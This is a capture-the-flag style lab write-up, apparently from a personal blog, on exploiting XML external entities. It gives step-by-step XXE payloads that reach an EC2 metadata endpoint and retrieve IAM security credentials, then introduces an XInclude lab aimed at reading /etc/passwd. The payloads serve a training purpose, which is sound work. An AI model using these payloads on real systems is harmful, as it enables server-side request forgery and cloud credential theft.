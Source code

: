 Exploiting-XXE-using-external-entities-to-retrieve-files-1.png
 Labe Solved

------------

# Lab: Exploiting XXE to perform SSRF attacks

in this lab is valarble to ssrf attack so we wiil use xml payload injection to exploit ssrf 

**Note** The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is [http://169.254.169.254/](http://169.254.169.254/). This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

we need to obtain the server's IAM secret access key from the EC2 metadata endpoint

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XXE-to-perform-SSRF-attacks-1.png)

In the response give us "Invalid product ID: latest" `latest` in the next sub-folder in the directory so we will add it to our payload 

```xml
<!DOCTYPE H3X0S3 [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XXE-to-perform-SSRF-attacks-2.png)



In the response give us "Invalid product ID: meta-data" `meta-data` in the next sub-folder in the directory so we will add it to our payload. so on 
our last payload is

```xml
<!DOCTYPE test [ <!ENTITY H3X0S3 SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"> ]>
```

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XXE-to-perform-SSRF-attacks-3.png)

Labe Solved

------------

# Lab: Exploiting XInclude to retrieve files

> Note:  This lab has a "Check stock" feature that embeds the user  input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.
